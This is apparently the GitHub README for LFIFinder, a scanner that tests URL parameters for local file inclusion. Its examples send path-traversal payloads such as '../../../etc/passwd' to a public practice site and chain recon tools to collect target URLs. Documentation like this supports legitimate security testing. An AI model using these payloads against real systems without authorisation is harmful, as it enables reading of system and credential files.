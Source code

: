 # LFIFinder

A Light Weight Tool for checking Local File Inclusion (LFI) vulnerabilities by replacing lfi payloads in the parameters values and checking 'root:' in the response.

## Installation
```
git clone https://github.com/rix4uni/LFIFinder.git
cd LFIFinder
#pip3 install -r requirements.txt
```

## Example usages

Note: must use `uro`

Single URL:
```
echo "http://testphp.vulnweb.com/showimage.php?file=./pictures/1.jpg" | python3 lfifinder.py
```

Multiple URLs:
```
cat lfi-urls.txt | python3 lfifinder.py
```

## Chaining With Other Tools
```
echo "http://testphp.vulnweb.com" | waybackurls | gf lfi | uro | anew | python3 lfifinder.py
echo "http://testphp.vulnweb.com" | waybackurls | gf lfi | uro | anew lfi-urls.txt # use this output in Multiple URLs
```
## To get best results
```
open lfi_payloads.txt add your favraioute payloads
```

## How It Works
```
For Example Url is:- 
http://testphp.vulnweb.com/showimage.php?file=first&cat=second

It will check all lfipayloads one by one:-
NOT VULNERABLE: http://testphp.vulnweb.com/showimage.php?file=../../etc/passwd&cat=../../etc/passwd
VULNERABLE: http://testphp.vulnweb.com/showimage.php?file=../../../etc/passwd&cat=../../../etc/passwd
NOT VULNERABLE: http://testphp.vulnweb.com/showimage.php?file=../../../../../../../etc/passwd&cat=../../../../../../../etc/passwd
```
